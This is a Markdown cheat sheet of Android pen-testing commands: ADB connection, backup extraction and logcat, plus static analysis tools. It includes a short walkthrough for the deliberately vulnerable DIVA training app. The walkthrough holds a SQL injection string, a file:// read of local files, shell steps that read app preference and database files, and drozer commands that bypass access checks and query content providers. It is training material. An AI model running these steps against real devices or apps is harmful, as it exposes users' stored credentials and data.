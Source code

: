 # Mobile Application Security
รวมคำสั่งต่างๆ ที่ใช้สำหรับการทำ Mobile Pen-Test

## Connect to Devices
1. Install ADB Wifi
2. Connect to Device with adb
    * adb connect [IP Address]:5555
    * adb devices -l
    * adb shell
    * adb shell pm list packages
3. Install application
    * adb install [Application Name].apk
    * adb -s emulator-5555 install helloWorld.apk
4. Upload file to device
    * adb push [local file] [remote file]
5. Download file to device
    * adb pull [local file] [remote file]
6. Backup application
    * adb backup <package name>
    * dd if=backup.ab bs=1 skip=24 | python -c "import zlib,sys;sys.stdout.write(zlib.decompress(sys.stdin.read()))" > backup.tar
7. Dump Logging
    * adb logcat -t 20
    * adb shell ps | grep -i diva (get process ID)
    * adb logcat | grep -i [Process ID]

## Diva Writeup
### Insecure Logging
- adb logcat -t 20

### Hardcoding Issues – Part 1
- jadx diva.apk
- cd diva/sources/jakhar/aseem/diva
- cat HardCodeActivity.java

### Insecure Data Storage – Part 1
- adb shell
- cd /data/data/jakhar.aseem.diva/shared_pref
- cat jakhar.aseem.diva_preferences.xml

### Insecure Data Storage – Part 2
- adb shell
- cd /data/data/jakhar.aseem.diva/databases
- sqlite3 ids2
- .tables
- select * from myuser;

Insecure Data Storage – Part 3
- cd diva/sources/jakhar/aseem/diva
- cat InsecureDataStorage3Activity.java
- adb shell
- cd /data/data/jakhar.aseem.diva
- cat uinfo...

### Input Validation Issues – Part 1
- 1' OR '1'='1'--

### Input Validation Issues – Part 2
- file:///data/data/jakhar.aseem.diva/uinfo...

### Access Control Issues – Part 1
- cd resources
- cat AndroidManifest.xml
- adb shell am start -a jakhar.aseem.diva.actions.VIEW_CREDS

### Access Control Issues – Part 2
- dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICreds2Activity --extra boolean check_pin false

### Access Control Issues – Part 3
- dz> run app.provider.finduri jakhar.aseem.diva
- dz> run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes
- dz> run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes --vertical

## Tools for Static Analysis
- Androwarn (for Android)
    * python androwarn.py -h
    * python androwarn.py -i ./SampleApplication/bin/SampleApplication.apk -r html -v 3
    * python androwarn.py -i ./SampleApplication/bin/SampleApplication.apk -d -v 3
- QARK (for Android)
    * python qarkMain.py -h
    * python qarkMain.py -p qark/sampleApp/goatdroid/goatdroid.apk   --source=1
- [MobSF](MobSF/Readme.md)
